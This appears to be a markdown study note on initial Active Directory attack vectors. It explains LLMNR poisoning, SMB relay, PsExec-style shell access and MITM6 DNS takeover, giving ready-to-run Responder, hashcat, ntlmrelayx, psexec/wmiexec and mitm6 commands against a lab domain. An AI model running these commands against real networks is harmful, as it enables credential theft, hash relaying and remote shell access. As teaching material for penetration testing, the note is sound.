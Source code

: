 ```yaml
---
title: Initial Attack Vectors
categories: [Active Directory notes]
published: true
description: Learn about initial attack vectors inside AD enviromnemt.
---
```


## LLMNR Poisoning

LLMNR (Link-Local Multicast Name Resolution) is a Windows protocol used to resolve hostnames when DNS fails. It allows devices to ask the local network, "Who has this hostname?"

How does poisoning work?

1. A Windows machine fails to resolve a hostname using DNS.
2. It broadcasts an LLMNR request to the local network, asking for the hostname’s IP.
3. An attacker intercepts the request and responds falsely, claiming to be the requested host.
4. The victim connects to the attacker's machine, often sending NTLMv2 hashed credentials in the process.
5. The attacker can capture the NTLM hash and attempt to crack it or use Pass-the-Hash attacks.

Run responder:

```bash
sudo responder -I tun0 -dwP
```

Crack NetNTLMv2 hash:
```bash
hashcat -m 5600 hashes.txt rockyou.txt
```

---

## SMB Relay

SMB (Server Message Block) is a protocol used for file sharing and authentication in Windows networks. It allows users to access shared files, printers, and network resources.

How does SMB Relay work?

1. A victim tries to connect to a malicious (or compromised) SMB server.
2. The attacker's server requests authentication and captures the victim’s NTLM hash.
3. Instead of cracking the hash, the attacker forwards (relays) it to another system on the network that accepts NTLM authentication.
4. If the relayed authentication is successful, the attacker gains access to the second system with the victim’s privileges.

Requirements:

- SMB Signing must be set to False or not required.
- Relayed user account needs to have admin privileges on the target machine.
- Responder.conf must have SMB=OFF and HTTP=OFF. `sudo mousepad /etc/responder/Responder.conf`

The attack can be done as follows:

- Check SMB signing:

```bash
nmap —script=smb2-security-mode.nse -p445 IP/CIDR
```

```bash
crackmapexec smb 192.168.100.0/24 --gen-relay-list relayOutFile.txt
```

- Run responder

```bash
sudo responder -I tun0 -dwP
```

- Run ntlmrelayx

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support [ -i for shell ] [ -c COMMAND ]
```

---

## PsExec Shell Access

- Metasploit:

`use exploit/windows/smb/psexec`

- Psexec.py:

```bash
psexec.py marvel.local/fcastle:’Password1’@IP_ADD
```

- Or with hash

```bash
psexec.py administrator@IP_ADDR -hashes HASH 
```

- Wmiexec.py:

```bash
wmiexec.py administrator@IP_ADDR -hashes HASH 
```

- Smbexec.py:

```bash
smbexec.py administrator@IP_ADDR -hashes HASH 
```

---

## MITM6 DNS takeover

MITM6 (Man-in-the-Middle IPv6) is a tool that exploits IPv6 auto-configuration in Windows networks to perform DNS takeover attacks.

How does the attack work?

1. Windows machines prefer IPv6 over IPv4 by default.
2. The attacker introduces a rogue IPv6 DHCP server using MITM6.
3. Victim machines automatically accept the attacker's fake IPv6 DNS server.
4. The attacker can now redirect DNS requests, forcing authentication to a malicious SMB/LDAP server.
5. If a victim authenticates, the attacker steals NTLM hashes and can perform relay attacks.

The attack can be done as follows:

- Run ntlmrelayx.py

```bash
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.marvel.local -l lootme
```

- Run mitm6

```bash
sudo mitm6 -d marvel.local
```
